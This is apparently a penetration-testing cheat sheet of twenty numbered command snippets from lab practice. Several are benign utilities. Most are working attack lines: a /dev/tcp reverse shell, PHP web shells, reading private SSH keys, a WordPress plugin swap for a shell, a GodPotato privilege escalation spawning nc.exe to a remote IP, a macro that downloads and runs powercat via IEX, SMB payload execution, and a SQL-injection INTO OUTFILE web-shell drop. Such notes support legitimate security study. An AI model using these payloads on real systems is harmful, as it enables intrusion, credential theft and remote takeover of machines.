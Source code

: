 _1)_ Conecting via xfreerdp:

```bash
xfreerdp /u:username /p:password /v:IP
```

_2)_ Using escape character:

```bash
cat script.db | grep "\"vuln\""
```

Search for "vuln". For instance:

![image](https://github.com/user-attachments/assets/59d1e02f-749d-4e70-a2f9-aa6847f638ad)

_3)_ Adding DNS entry:

```bash
sudo sh -c 'echo "SERVER_IP academy.htb" >> /etc/hosts'
```

_4)_ Decoding/encoding base64

```bash
echo -n "VGhlIGZsYWcgaXM6IE9Te2UxYzRlZDM0ODY2NGEzMDJiNWZmMmEwZjJkZmYzYTU3fQ==" | base64 -d
...
echo -n "Encode this!" | base64
```

_5)_ Connecting via private key

```bash
chmod 400 key.txt
...
ssh -i key.txt username@IP -p <PORT> (22 default)
```

_6)_ SSH keys can be found in:

```bash
cat ~/.ssh/id_rsa
```

_7)_ Testing DT via curl:

```bash
curl -v --path-as-is http://example.com:port/search.php?query=<payload>
```

_8)_ There might be instances when we should use simpler reverse shells. 

Firstly:

```bash
(sh)>0/dev/tcp/IP/PORT
```

Then:

```bash
exec >&0
```

_9)_ php web shell

```php
<?php system($_GET['cmd']); ?>
```

_10)_ Starting a web server:

```bash
python3 -m http.server 8888
```

_11)_ Looking for a file in Windows (equivalent of find in linux):

```powershell
Get-ChildItem -Path C:\ -Include <filename> -File -Recurse -ErrorAction SilentlyContinue
```

_12)_ Finding file location:

```powershell
Get-Process <processname> | format-list path
```

_13)_ Host sweep, if there is no nmap:

```bash
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```

the **-z** flag to check for a listening port without sending data, **-v** for verbosity, and **-w** set to **1** to ensure a _lower time-out threshold_.

_14)_ In wordpress, if we get access to /wp-admin page, we can edit plugins and then get a reverse shell. To do that:
1. replace any plugin (elementor for instance) with reverse shell
2. start a netcat listener (`nc -lnvp 4444`)
3. then access the plugin in /wp-content/plugins/plugin_name/something.php (in our case it is wp-content/plugins/elementor/elementor.php)

_15)_ Transferring files from Windows to Linux:

Kali:

```bash
impacket-smbserver test . -smb2support  -username nazim -password nazim
```

```bash
net use m: \\192.168.45.194\test /user:nazim nazim
copy output.zip m:\
```

_16_)
```bash
.\godpotato -cmd "C:\users\public\nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.160 8081"
```

_17)_ Let's say we can execute commands only from smb. No transfers or nc.exe are available. Another way of transferrring a file from Kali to compromised machine and executing is:

On Kali:

```bash
smbserver.py -smb2support evil $PWD
```

On compromised machine through cmd:

```powershell
//kali_ip/evil/shell.exe
```


_18)_ If default commands such as whoami do not work, set $PATH variable:

```powershell
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```

_19)_ Macros and powercat:

```
Sub Main

	Shell("cmd /c powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.187/powercat.ps1');powercat -c 192.168.45.187 -p 135 -e powershell")

End Sub
```

_20)_ Into outfile

```mysql
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -
```

